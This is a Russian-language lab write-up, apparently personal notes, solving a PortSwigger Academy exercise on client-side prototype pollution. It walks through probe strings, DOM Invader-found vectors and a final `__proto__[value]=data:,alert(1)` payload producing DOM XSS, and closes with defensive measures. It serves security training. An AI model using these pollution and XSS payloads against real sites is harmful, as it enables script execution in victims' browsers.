


#### Загрязнение прототипа на стороне клиента с помощью API браузера
лаба https://portswigger.net/web-security/prototype-pollution/client-side/browser-apis/lab-prototype-pollution-client-side-prototype-pollution-via-browser-apis

задача - найти уязвимость загрязнния прототипов, найти гаджет, вызвать алерт

-----
тестирую запрос поиска на сайте

ориг запрос
```http
GET /?search=777 HTTP/2
Host: 0aba00f603325cdf804d0d0a006500e9.web-security-academy.net
Cookie: session=ZcELMfQ0PsWT84fGg0xne7agXNHYj0Iy
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0aba00f603325cdf804d0d0a006500e9.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```

можно взять пейлоад лист базовый и проверять все места куда передаются параметры, вручную подставляя параметры и через консоль проверять обьекты `Object.prototype`  или так `console.log(Object.prototype);`


```c

__proto__[test]=polluted&__proto__[test2]=polluted2&__proto__[test3]=polluted3
__proto__[test]=polluted&constructor.prototype.test2=polluted2


```
полный список для ручного поиска здесь [[0_theory_PrototypePollution!]]


----

но проще и быстрее запустить вот это дело, инвайдер от бурпа или его аналоги!

-----
инвайдер сразу находит два пелоада потенциально уязвимых!




вот
```http
https://0aba00f603325cdf804d0d0a006500e9.web-security-academy.net/?search=777&__proto__[testproperty]=DOM_INVADER_PP_POC

или

https://0aba00f603325cdf804d0d0a006500e9.web-security-academy.net/?search=777&constructor[prototype][testproperty]=DOM_INVADER_PP_POC
```

`&constructor[prototype][testproperty]=DOM_INVADER_PP_POC`

либо

`&__proto__[testproperty]=DOM_INVADER_PP_POC`

------

на странице поиска запустил, инвайдер с поиском гаждета

и вот пейлоад `&__proto__[value]=data%3A%2Calert%281%29`

`https://0aba00f603325cdf804d0d0a006500e9.web-security-academy.net/?search=777&__proto__[value]=data%3A%2Calert%281%29`




пейлоад сработал и вызвал алерт!
с таким же успехом можно жертве скинуть ссылку эту зараженную и выполнить js код в баузере жертвы!!

лаба решена!

-----

##### выводы

в лабе я использовал client-side prototype pollution через API браузера, для выполнения DOM XSS

источником уязвимости стал параметр search в строке запроса

DOM Invader помог быстро найти два рабочих вектора: через `__proto__[testproperty]` и через `constructor[prototype][testproperty]
конечно, можно было бы и вручную перебирать все с нуля, пейлоады есть здесь [[0_theory_PrototypePollution!]]

После подтверждения загрязнения прототипа я запустил поиск гаджета, и инструмент нашел свойство `value`, которое можно контролировать через прототип. 

 
 итоговый пэйлоад `/?search=777&__proto__[value]=data:,alert(1)` добавил в `Object.prototype` свойство `value` с Data URL
 В коде страницы какой-то JavaScript-метод использовал это свойство для вставки данных, что привело к выполнению `alert(1)`

##### защита

1.  нужно замораживать прототипы через `Object.freeze(Object.prototype)`
2.  при работе с пользовательскими данными удалять ключи `__proto__`, `constructor` и `prototype` до мержа объектов
3. использовать `Object.create(null)` для создания объектов без прототип
4. применять `Map` вместо обычных объектов для хранения данных
5. регулярно проверять сторонние библиотеки на наличие известных гаджетов
6. использовать инструменты автоматического сканирования, такие как DOM Invader, для поиска уязвимостей, это значительно ускоряет поиск вектора уязвимости!

